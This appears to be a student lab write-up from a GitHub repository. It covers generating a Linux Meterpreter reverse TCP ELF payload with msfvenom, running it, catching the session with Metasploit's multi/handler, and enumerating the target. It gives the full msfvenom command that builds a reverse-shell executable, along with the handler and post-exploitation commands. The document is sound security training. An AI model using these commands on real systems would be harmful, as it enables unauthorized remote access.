






# Lab 2 - Linux Meterpreter Reverse TCP lab

## Objective 

Understand:

- Linux payload generation

- ELF executable payloads

- Reverse TCP connections on Linux

- Metasploit listener configuration

- Meterpreter session interaction

- Basic post-exploitation enumeration

## Lab Environment

| Machine | Purpose |
|---|---|
| Kali Linux | Attacker Machine |
| Kali Linux | Target Machine |
| Metasploit Framework | Listener & session handling |

## Step 1 - Payload Creation

On Kali Linux terminal, switched to root privileges, and generated a Linux Meterpreter reverse TCP payload using _msfvenom_.

- **Payload Command**

  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.x.x.x LPORT=8081 -f elf > test.elf

  

Explanation

| Option | Purpose |
|---|---|
| linux/x86/meterpreter/reverse_tcp | Linux reverse Meterpreter payload |
| LHOST | Listener IP address |
| LPORT=8081 | listening port | 
| -f elf | linux executable format |
| > test.elf | Save payload file |

## Step 2 - Granting Execute Permission

Used the following command to make the ELF payload executable:

**chmod +x test.elf**

Explanation

chmod +x

adds executable permission to the file.

## Step 3 - Executing the Payload

Opened a second terminal and executed the payload file.

**./test.elf**

This initiated the reverse TCP connection back to the Metasploit listener.

## Step 4 - Metasploit Listener Configuration

Opened Metasploit Framework using:

**msfconsole**

Configured:

- payload type

- LHOST

- LPORT

  using the: **exploit/multi/handler**

  module.

  Additional Meterpreter session settings were configured in the Metasploit Framework to manage connection stability and session lifetime.

  ### Commands Used

  set SessionExpirationTimeout

  set SessionCommunicationTimeout

  ### Explanation

  | Setting | Purpose |
  |---|---|
  | SessionExpirationTimeout | Controls how long the Meterpreter session remains active before expiring |
  | SessionCommunicationTimeout | Controls how long Metasploit waits for communication before considering the session is dead |

### Why it matters

These settings help:

- maintain stable sessions

- prevent premature session termination

- improve reliability during longer lab exercises

- manage inactive or disconnected sessions

  Started the listener and waited for the reverse connection.

  ## Step 5 - Meterpreter Session & Enumeration

  After executing the ELF payload, a Meterpreter session was established successfully.

  Post-exploitation commands were used to gather information from the target system.

  | Command | Purpose |
  |---|---|
  | sysinfo | Display target system information |
  | getuid | Show current user context |
  | ps | List running processes |
  | ipconfig/ifconfig | Display network configuration |

  ## Reverse TCP Flow

## Key Concepts Learned 

- Linux ELF payload generation

- File permission management with _chmod_

- Reverse TCP communication workflow

- Metasploit multi/handler configuration

- Meterpreter session timeout management

- Metasploit session configuration

- Session stability tuning

- Linux Meterpreter session interaction

- Basic enumeration techniques

- Multi-terrminal workflow in Kali Linux

## ⚠️ Disclaimer 

This lab was performed:

- in an isolated educational lab environment

- using authorized systems only

- for cybersecurity learning purposes only
